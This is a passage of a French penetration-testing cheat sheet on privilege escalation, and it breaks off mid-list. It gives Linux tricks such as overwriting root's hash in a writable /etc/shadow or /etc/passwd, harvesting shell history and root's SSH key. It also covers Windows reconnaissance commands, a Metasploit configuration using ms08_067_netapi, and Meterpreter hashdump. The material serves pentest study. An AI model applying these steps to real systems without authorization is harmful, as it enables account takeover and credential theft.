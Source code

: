 ## 12) **Autres**

- Si `/etc/shadow` est autorisé en écriture : `mkpasswd -m sha-512 [new_root_password]` =\> insérer le résultat dans la deuxième colonne de `/etc/shadow`
    
- Si `/etc/passwd` est autorisé en écriture : `openssl passwd [new_root_passord]` =\> insérer le résultat dans la deuxième colonne de `/etc/passwd`
    
- Le mot de passe de la session pourrait être contenu dans :
    
    1.  Un fichier de configuration `/etc/..`
    2.  L'historique des commandes `cat ~/.*history`
- Il est possible que la clé id_rsa du root dans `/root/.ssh` soit en lecture.
    

# 03.2 : Privilege escalation - WINDOWS

## **Commandes utiles**

- `sysinfo` : infos système (voir hotfix)
- `net user` : liste des utilisateurs
- `whoami /priv` : privilèges de l'utilisateur (défaut : vagrant)
- `whoami /groups` : groupes de l'utilisateur (défaut : everyone)
- `whoami /all` : toutes les infos de l'utilisateur
- `hostname` : nom de l'ordinateur
- `tasklist` : liste des processus

## **METASPLOIT**

### **1) MSFConsole**

- `msfconsole` : run
- `search [service]`: chercher vulns d'un service
- Configuration :

```
use exploit [exploit] (pour une vulnérabilité précise)
set payload [payload]
set RHOSTS [ip cible] 
set RPORT [port cible]
run
```

- Liste des exploits favoris :
    1.  ms08\_067\_netapi
- `show options` : affiche les options
- `sessions` : affiche les sessions
- `set SESSION 1` : affecte les paramètres courant à la session 1

### **2) Meterpreter**

- `sysinfo` : infos système
- `getuid` : info user courant
- `upload [chemin_fichier_sur_linux]`
- `getprivs` : privilèges
- `shell` : shell
- `hashdump` : équivalent à /etc/shadow
- Module meterpreter d'usurpation de token :
